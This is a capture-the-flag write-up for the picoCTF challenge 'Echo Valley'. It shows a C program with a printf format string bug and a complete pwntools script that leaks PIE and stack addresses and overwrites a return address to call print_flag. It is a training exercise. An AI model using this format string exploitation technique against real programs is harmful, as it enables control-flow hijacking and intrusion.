 ```yaml
---
title: "Echo Valley"
categories: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: picoCTF{REDACTED}
---
```

> The echo valley is a simple function that echoes back whatever you say to it.
> But how do you make it respond with something more interesting, like a flag?

by Shuailin Pan (LeConjuror)

---

<details>
<summary>Hint 1</summary>

Ever heard of a format string attack?
</details>

---

The challenge provides a binary `valley` and a remote server to connect to. The binary is a simple program that reads input from the user and prints it back to the user. The binary also contains a function `print_flag` that reads the flag from a file and prints it to the user.

```c
void print_flag() {
    char buf[32];
    FILE *file = fopen("/home/valley/flag.txt", "r");

    if (file == NULL) {
      perror("Failed to open flag file");
      exit(EXIT_FAILURE);
    }
    
    fgets(buf, sizeof(buf), file);
    printf("Congrats! Here is your flag: %s", buf);
    fclose(file);
    exit(EXIT_SUCCESS);
}

void echo_valley() {
    printf("Welcome to the Echo Valley, Try Shouting: \n");

    char buf[100];

    while(1)
    {
        fflush(stdout);
        if (fgets(buf, sizeof(buf), stdin) == NULL) {
          printf("\nEOF detected. Exiting...\n");
          exit(0);
        }

        if (strcmp(buf, "exit\n") == 0) {
            printf("The Valley Disappears\n");
            break;
        }

        printf("You heard in the distance: ");
        printf(buf);
        fflush(stdout);
    }
    fflush(stdout);
}
```

The goal of the challenge is to print the flag to the user. The `print_flag` function is not called in the binary, so we need to find a way to call it. The binary is vulnerable to a format string attack. We can use the format string vulnerability to overwrite some memory to call the `print_flag` function. The binary is compiled with the `FULL RELRO` option, so we cannot overwrite the GOT table. We can use another technique to call the `print_flag` function. We can overwrite the return address of the `echo_valley` function to call the `print_flag` function.

The binary is compiled with the `PIE` option, so the base address of the binary is randomized. We can leak the base address of the binary by using the format string vulnerability. We can also leak the stack address by using the format string vulnerability. We can calculate the return address of the `echo_valley` function by adding 8 to the leaked stack address. We can calculate the offset of the format string vulnerability by using the `FmtStr` class from the `pwntools` library. We can then use the `fmtstr_payload` function from the `pwntools` library to create a payload to overwrite the return address of the `echo_valley` function to call the `print_flag` function.

```py
from pwn import *

binary = './valley'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('shape-facility.picoctf.net', 65453)

def exec_fmt(payload):
    p = process(binary)
    p.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')
    p.sendline(payload)
    p.recvuntil(b'You heard in the distance: ')
    recv = p.recv()
    p.close()
    return recv

autofmt = FmtStr(exec_fmt)
offset = autofmt.offset

r.recvuntil(b'Welcome to the Echo Valley, Try Shouting:')

r.sendline(b'%21$p.%20$p')
r.recvuntil(b'You heard in the distance: ')
leak = r.recvline().strip().split(b'.')
main_address_ = int(leak[0], 16)
stack_address = (int(leak[1], 16))
log.info(f'main_address_: {hex(main_address_)}')

base_address = main_address_ - (0x555555555413 - 0x555555554000)
log.info(f'base_address: {hex(base_address)}')

ret_address = stack_address + 8

payload = fmtstr_payload(offset, { ret_address: base_address + e.sym['print_flag'] }, write_size='short')
r.sendline(payload)
r.sendline(b'exit')

r.interactive()
```
